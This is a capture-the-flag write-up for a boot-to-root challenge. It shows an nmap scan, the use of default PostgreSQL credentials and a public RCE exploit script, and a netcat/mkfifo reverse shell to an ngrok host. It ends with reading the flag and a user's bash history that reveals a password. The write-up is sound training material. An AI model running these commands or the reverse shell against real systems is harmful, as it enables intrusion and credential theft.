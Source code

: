 # Intro
```
Boot2Root/Haxquash - User

viipz, rvino

**Techarisma Chapter 6/7**

Well done finding one of their servers. Let's try a takeover - get a foothold on the box and locate the user.txt!

Brute forcing / Fuzzing is allowed on this challenge.
```

The challenge is to hack your way into the computer and read the user.txt flag located in someones home directory.
# Lets go
We start off with an NMAP scan to find what is currently runing on the machine
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 52.31.185.33
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-05 12:46 EDT
Nmap scan report for ec2-52-31-185-33.eu-west-1.compute.amazonaws.com (52.31.185.33)
Host is up (0.068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5a:5b:0f:5e:0a:47:94:46:de:b2:6c:70:cf:b1:c0:bb (ECDSA)
|_  256 f6:83:e2:14:88:d9:33:06:30:47:c5:9f:62:36:ef:7d (ED25519)
80/tcp   open  http       Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
5432/tcp open  postgresql PostgreSQL DB 9.6.0 or later
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 2.0 to 3.0
|     Fpostmaster.c
|     L2093
|_    RProcessStartupPacket
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5432-TCP:V=7.92%I=7%D=11/5%Time=636693A5%P=x86_64-pc-linux-gnu%r(SM
SF:BProgNeg,8C,"E\0\0\0\x8bSFATAL\0VFATAL\0C0A000\0Munsupported\x20fronten
SF:d\x20protocol\x2065363\.19778:\x20server\x20supports\x202\.0\x20to\x203
SF:\.0\0Fpostmaster\.c\0L2093\0RProcessStartupPacket\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.36 seconds
zsh: segmentation fault  nmap -sC -sV 52.31.185.33
```

So postgresql is running, googling standard creds reveals that we can probably use postgres:postgres as username and password.
Further googling the version, we find out that it is vulnerable for remote code execution:
https://www.exploit-db.com/exploits/50847

Using that exploit we get code execution

```bash
┌──(kali㉿kali)-[~]
└─$ python3 ./50847.py -i 52.31.185.33 -c whoami                                                                                                                                                                                        

[+] Connecting to PostgreSQL Database on 52.31.185.33:5432
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 10.2 is likely vulnerable
[+] Creating table _7f3aed8c53f9910e20f80ae1042cea1b
[+] Command executed

postgres

[+] Deleting table _7f3aed8c53f9910e20f80ae1042cea1b
```


So to get reverse shell we can use a bash oneliner from pentestmonkey and link that with a ngrok tcp listener:

The listener:
```bash
./ngrok tcp 8081
nc -nvlp 8081
```

And the command for the reverse shell:
```bash
python3 ./50847.py -i 54.217.11.23 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.eu.ngrok.io 16354 >/tmp/f"
```

Once in, we can enumerate with linpeas or simply list what sudo commands we can run with: `sudo -l`

This gives us that the user postgres can run /bin/cat as helix
This gives us the opportunity to either cat the flag directly
`sudo -u helix /bin/cat /home/helix/user.txt`
`EPT{I_like_my_sugar_with_coffee_and_cream}`
Or go for his history file and get his password to log in with and cat the flag like that
```bash
sudo -u helix /bin/cat /home/helix/.bash_history
psql -h 127.0.0.1 -p 5432 -U helix -W c4nt_broooot_th15_sh1t! -d postgres
```
